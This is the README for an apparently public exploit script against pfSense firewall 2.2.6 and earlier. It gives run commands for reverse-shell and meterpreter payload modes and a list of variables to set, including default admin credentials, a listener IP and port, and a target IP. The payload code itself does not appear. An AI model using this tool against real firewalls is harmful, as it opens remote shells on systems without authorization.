


# Authenticated Arbitrary Code Execution on pfSense <= 2.2.6

### description

pfSense Community Edition firewall version 2.2.6 and below is vulnerable to arbitrary code execution exploit as an authenticated non-administrative user. The initial advisory came from [Security Assessment](https://www.security-assessment.com/files/documents/advisory/pfsenseAdvisory.pdf) in April 2016, however until very recently there was not a public exploit for this vulnerability. This is my version of this exploit.

You can read about the research and development process on my [blog post](https://spencerdodd.github.io/spencerdodd.github.io/2018/01/14/pfsense-arbitrary-code-execution/) about the exploit.

### php reverse shell payload



### meterpreter staged payload



### usage

This exploit can use either a pure PHP reverse shell or a meterpreter staged payload

*nc reverse shell*

```
python3 pfsense_exec.py nc
```

*meterpreter staged payload*

```
python3 pfsense_exec.py msf
```

### variables to set

set these variables (in the source code) to their appropriate values for your exploitation

```
username = 	"admin" 			# default is admin
password = 	"pfsense"			# default is pfsense
listener_ip = 	"10.0.0.1"
listener_port = "4444"
target_ip = 	"10.0.0.2"
...
proxied_url = 	"https://127.0.0.1:31337/"	# if you want to proxy
```
